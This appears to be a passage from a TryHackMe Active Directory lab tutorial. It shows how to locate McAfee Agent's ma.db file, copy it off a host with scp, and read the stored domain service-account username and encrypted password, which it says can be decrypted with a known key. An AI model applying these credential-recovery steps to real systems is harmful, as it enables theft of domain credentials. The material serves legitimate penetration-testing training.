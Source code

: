 Configuration File Credentials  

However, we will focus on recovering credentials from a centrally deployed application in this task. Usually, these applications need a method to authenticate to the domain during both the installation and execution phases. An example of such as application is McAfee Enterprise Endpoint Security, which organisations can use as the endpoint detection and response tool for security.  

McAfee embeds the credentials used during installation to connect back to the orchestrator in a file called ma.db. This database file can be retrieved and read with local access to the host to recover the associated AD service account. We will be using the SSH access on THMJMP1 again for this exercise.

The ma.db file is stored in a fixed location:  

SSHCommand Prompt

```shell-session
thm@THMJMP1 C:\Users\THM>cd C:\ProgramData\McAfee\Agent\DB
thm@THMJMP1 C:\ProgramData\McAfee\Agent\DB>dir
 Volume in drive C is Windows 10
 Volume Serial Number is 6A0F-AA0F

 Directory of C:\ProgramData\McAfee\Agent\DB      

03/05/2022  10:03 AM    <DIR>          .
03/05/2022  10:03 AM    <DIR>          ..
03/05/2022  10:03 AM           120,832 ma.db      
               1 File(s)        120,832 bytes     
               2 Dir(s)  39,426,285,568 bytes free
```

We can use SCP to copy the ma.db to our AttackBox:

Terminal

```shell-session
thm@thm:~/thm# scp thm@THMJMP1.za.tryhackme.com:C:/ProgramData/McAfee/Agent/DB/ma.db .
thm@10.200.4.249's password:
ma.db 100%  118KB 144.1KB/s   00:00
```

To read the database file, we will use a tool called sqlitebrowser. We can open the database using the following command:

Terminal

```shell-session
thm@thm:# sqlitebrowser ma.db
```

Using sqlitebrowser, we will select the Browse Data option and focus on the AGENT_REPOSITORIES table:

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/6093e17fa004d20049b6933e/room-content/aeda85be24462cc6a3f0c03cd899053a.png)  

We are particularly interested in the second entry focusing on the DOMAIN, AUTH_USER, and AUTH_PASSWD field entries. Make a note of the values stored in these entries. However, the AUTH_PASSWD field is encrypted. Luckily, McAfee encrypts this field with a known key. Therefore, we will use the following old python2 script to decrypt the password. The script has been provided as a downloadable task file or on the AttackBox, it can be found in the `/root/Rooms/BreachingAD/task7/` directory.
